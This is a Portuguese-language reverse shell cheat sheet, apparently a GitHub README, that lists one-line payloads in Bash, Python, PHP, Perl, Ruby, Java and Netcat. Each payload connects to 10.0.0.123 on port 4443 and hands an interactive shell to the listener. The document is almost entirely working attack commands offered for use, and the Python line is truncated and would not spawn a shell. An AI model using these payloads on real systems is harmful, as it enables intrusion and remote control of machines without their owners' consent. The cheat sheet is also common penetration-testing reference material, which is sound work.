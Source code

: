 # Reverse Shell Cheat Sheet

Os exemplos abaixo são para sistemas Linux, mas alguns podem ser testados em sistemas Windows alterando  “/bin/sh -i” por “cmd.exe”.

## Bash

Algumas versões do bash podem executar um  reverse shell (Ex: Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.123/4443 0>&1`

## Python 2.7

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.123",4443))`

## PHP
Esta linha de comando utiliza “TCP connection file descriptor 3”. Caso não funcione , tente 4, 5, 6…

`php -r '$sock=fsockopen("10.0.0.123",4443);exec("/bin/sh -i <&3 >&3 2>&3");'`

## PERL

`perl -e 'use Socket;$i="10.0.0.123";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.123",4443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

## Java

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.123/4443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

## Netcat

`nc 10.0.0.123 4443 -e /bin/sh`

## Fonte:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell
